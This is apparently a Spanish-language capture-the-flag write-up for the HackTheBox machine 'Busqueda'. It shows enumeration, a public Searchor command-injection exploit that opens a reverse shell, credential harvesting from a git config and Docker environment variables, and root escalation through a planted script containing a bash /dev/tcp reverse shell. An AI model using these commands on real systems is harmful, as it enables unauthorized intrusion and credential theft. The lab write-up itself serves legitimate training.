 
---
title: "Busqueda"
summary: "Busqueda Machine From HackTheBox"
categories: ["Post","Blog",]
tags: ["post","linux","hackthebox"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2024-12-18

---

| Información de la máquina | |
| -------------------- | ------------ |
| **Plataforma** | HackTheBox |
| **Sistema operativo** | Linux |
| **Dificultad** | Fácil |
| **IP** | 10.10.11.208 |
- - -
## Enumeración

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

ESTADO DEL PUERTO VERSIÓN DEL SERVICIO
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocolo 2.0)
| ssh-hostkey:
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open http Apache httpd 2.4.52
|_http-title: No se siguió la redirección a http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Información del servicio: Host: searcher.htb; SO: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos ver que la web en el puerto 80 redirige a **searcher.htb**. Vamos a agregarlo a `/etc/hosts`.

Tan pronto como aterrizamos en la página, vemos lo siguiente:
![Busqueda1](/static/Busqueda/Busqueda1.png)

Un vistazo rápido muestra la versión de la aplicación que se está ejecutando detrás de este sitio web, que es **Searchor 2.4.0**. Si buscamos vulnerabilidades, encontramos el siguiente [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Explotación
Ejecutamos el exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

Colocamos un listener `netcat` para recibir la conexión:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

Ingresamos exitosamente a la máquina como usuario **svc** .
```bash
svc@busqueda:~$ cat usuario.txt
cat usuario.txt
75a17...8bd3e
```
- - -
## Escalada de privilegios
Al revisar los archivos del sistema, encontramos un `.git` con credenciales en la carpeta **app**.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
repositoryformatversion = 0
...
[remote "origin"]
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
remote = origin
merge = refs/heads/main
```

El usuario es **cody** y la contraseña es **jh1usoih2bkjaspwe92** para una aplicación en un subdominio llamado **gitea**. Vamos a añadirlo al `/etc/hosts` y echarle un vistazo.

![Busqueda2](/static/Busqueda/Busqueda2.png)

Aquí dentro no encontramos nada interesante, salvo que podemos ver un usuario llamado **administrador**. Aunque podemos intentar usar SSH con el usuario **svc** y la contraseña de **cody**:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208
Contraseña de svc@10.10.11.208:
Bienvenido a Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

* Documentación: https://help.ubuntu.com
* Administración: https://landscape.canonical.com
* Soporte: https://ubuntu.com/advantage

...

Último inicio de sesión: mar abr 4 17:02:09 2023 desde 10.10.14.19
```

Comprobemos los privilegios de sudo que tiene este usuario:

```bash
svc@busqueda:/opt/scripts$ sudo -l

El usuario svc puede ejecutar los siguientes comandos en busqueda:
(root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Este usuario tiene derecho a ejecutar ese script dentro de **/opr/scripts**.

Si lo ejecutamos, podemos ver las siguientes opciones:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Uso: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

docker-ps : Listar los contenedores de Docker en ejecución
docker-inspect : Inspeccionar un determinado contenedor de Docker
full-checkup : Ejecutar una comprobación completa del sistema
```

Después de investigar un poco, descubrimos que la opción `docker-inspect` se puede usar para recuperar información de los contenedores de Docker que se están ejecutando en la máquina, antes vista con la opción `docker-ps`.

```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
"USER_UID=115",
"USER_GID=121",
"GITEA__database__DB_TYPE=mysql",
"GITEA__database__HOST=db:3306",
"GITEA__database__NAME=gitea",
"GITEA__database__USER=gitea",
"GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
"USER=git",
"GITEA_CUSTOM=/data/gitea"
],
```

Parece que encontramos más credenciales para la aplicación **gitea**. Intentemos iniciar sesión como **administrador**
con estas credenciales.

![Busqueda3](/static/Busqueda/Busqueda3.png)

¡Genial! Ahora podemos comprobar el contenido de los **scripts** en la carpeta **/opt**.

Al leer el script `system-checkup.py` notamos que el script `full-checkup.sh` es referenciado como si estuviera en la misma carpeta:

```
...
elif action == 'full-checkup':
try:
arg_list = ['./full-checkup.sh']
print(run_command(arg_list))
print('[+] Done!')
except:
print('Something went wrong')
exit(1)
...
```

Podemos abusar de esto creando nuestro propio script malicioso y referenciarlo, ya que lo estamos ejecutando con privilegios sudo:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Ten en cuenta que debes otorgar privilegios de ejecución al script para que se ejecute, ya que este fue un error mío que me llevó bastante tiempo descubrir.

Ahora, configuramos un listener `netcat` y ejecutamos el script malicioso:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

En el `netcat` recibimos el shell root:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

¡Genial! Hemos rooteado la máquina.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```